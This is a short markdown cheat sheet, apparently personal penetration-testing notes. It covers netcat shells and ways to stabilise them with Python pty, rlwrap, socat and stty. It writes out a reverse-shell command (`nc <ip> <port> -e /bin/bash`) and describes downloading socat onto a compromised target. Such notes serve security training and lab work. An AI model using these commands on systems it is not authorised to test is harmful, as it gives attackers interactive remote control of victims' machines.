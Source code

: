# NetCat shell
`-e <cmd>` - specify a command to execute e.g. `nc <ip> <port> -e /bin/bash` for a shell \
 The `-e` flag always must be appended to the target (where the shell must be executed).
 
# Shell stabilization
We have caught or connected to a netcat shell
## Python
1. `python -c 'import pty;pty.spawn("/bin/bash")'` - maybe need python2 or python3
2. `export TERM=xterm` - gives access to term commands like clear
3. Ctrl + Z to background the shell
4. `stty raw -echo; fg` - trun of own terminal echo and foreground shell

If shell dies use `reset` to turn on echo again

## rlwarp
We invoke nc via rlwrap which gives us access to history, tab completion and arrows. \
Needs to be installed if it is not. \
Also stabilized Windows shell. 

`rlwrap nc -lvnp <port>` - start nc in rlwrap

On Linux we can stabilze the shell completly by turning off our own terminal echo like above. 

## Socat
On linux this is a fully featured shell. On windows it is not more stable than a nc shell.
1. Obtain a static compiled binary of the socat shell for you target.
2. Use the netcat shell to download socat to the target
3. Invoke socat from the netcat shell

More on socat [here](https://github.com/leeky-mem/hacking-notes/blob/main/socat.md)

## Manually changing size of shell
`stty -a` - gives the host shell size \
`stty rows <row-size>` and `stty cols <cols-size>` changes the remote shell size
